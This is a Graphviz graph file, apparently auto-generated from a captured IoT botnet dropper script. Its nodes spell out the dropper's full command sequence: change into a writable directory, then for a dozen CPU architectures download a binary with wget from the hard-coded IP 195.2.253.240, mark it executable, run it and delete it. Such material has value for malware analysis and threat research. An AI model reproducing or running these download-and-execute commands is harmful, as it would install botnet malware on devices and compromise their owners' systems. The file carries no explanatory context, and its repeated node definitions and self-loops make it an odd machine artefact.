 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://195.2.253.240/IoTmips "];
10 -> 12 [label=";,"];
12 [label="chmod +x IoTmips "];
12 -> 14 [label=";,"];
14 [label="./IoTmips "];
14 -> 16 [label=";,"];
16 [label="rm -rf IoTmips "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://195.2.253.240/IoTmips64 "];
28 -> 30 [label=";,"];
30 [label="chmod +x IoTmips64 "];
30 -> 32 [label=";,"];
32 [label="./IoTmips64 "];
32 -> 34 [label=";,"];
34 [label="rm -rf IoTmips64 "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://195.2.253.240/IoTmipsel "];
46 -> 48 [label=";,"];
48 [label="chmod +x IoTmipsel "];
48 -> 50 [label=";,"];
50 [label="./IoTmipsel "];
50 -> 52 [label=";,"];
52 [label="rm -rf IoTmipsel "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://195.2.253.240/IoTsh4 "];
64 -> 66 [label=";,"];
66 [label="chmod +x IoTsh4 "];
66 -> 68 [label=";,"];
68 [label="./IoTsh4 "];
68 -> 70 [label=";,"];
70 [label="rm -rf IoTsh4 "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://195.2.253.240/IoTx86 "];
82 -> 84 [label=";,"];
84 [label="chmod +x IoTx86 "];
84 -> 86 [label=";,"];
86 [label="./IoTx86 "];
86 -> 88 [label=";,"];
88 [label="rm -rf IoTx86 "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://195.2.253.240/IoTi686 "];
100 -> 102 [label=";,"];
102 [label="chmod +x IoTi686 "];
102 -> 104 [label=";,"];
104 [label="./IoTi686 "];
104 -> 106 [label=";,"];
106 [label="rm -rf IoTi686 "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://195.2.253.240/IoTpowerpc "];
118 -> 120 [label=";,"];
120 [label="chmod +x IoTpowerpc "];
120 -> 122 [label=";,"];
122 [label="./IoTpowerpc "];
122 -> 124 [label=";,"];
124 [label="rm -rf IoTpowerpc "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://195.2.253.240/IoTm86k "];
136 -> 138 [label=";,"];
138 [label="chmod +x IoTm86k "];
138 -> 140 [label=";,"];
140 [label="./IoTm86k "];
140 -> 142 [label=";,"];
142 [label="rm -rf IoTm86k "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://195.2.253.240/IoTsparc "];
154 -> 156 [label=";,"];
156 [label="chmod +x IoTsparc "];
156 -> 158 [label=";,"];
158 [label="./IoTsparc "];
158 -> 160 [label=";,"];
160 [label="rm -rf IoTsparc "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://195.2.253.240/IoTarmv4 "];
172 -> 174 [label=";,"];
174 [label="chmod +x IoTarmv4 "];
174 -> 176 [label=";,"];
176 [label="./IoTarmv4 "];
176 -> 178 [label=";,"];
178 [label="rm -rf IoTarmv4 "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://195.2.253.240/IoTarmv5 "];
190 -> 192 [label=";,"];
192 [label="chmod +x IoTarmv5 "];
192 -> 194 [label=";,"];
194 [label="./IoTarmv5 "];
194 -> 196 [label=";,"];
196 [label="rm -rf IoTarmv5 "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://195.2.253.240/IoTarmv6 "];
208 -> 210 [label=";,"];
210 [label="chmod +x IoTarmv6 "];
210 -> 212 [label=";,"];
212 [label="./IoTarmv6 "];
212 -> 214 [label=";,"];
214 [label="rm -rf IoTarmv6 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/system "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://195.2.253.240/IoTPPC440fp "];
226 -> 228 [label=";,"];
228 [label="chmod +x IoTPPC440fp "];
228 -> 230 [label=";,"];
230 [label="./IoTPPC440fp "];
230 -> 231 [label=";,"];
}

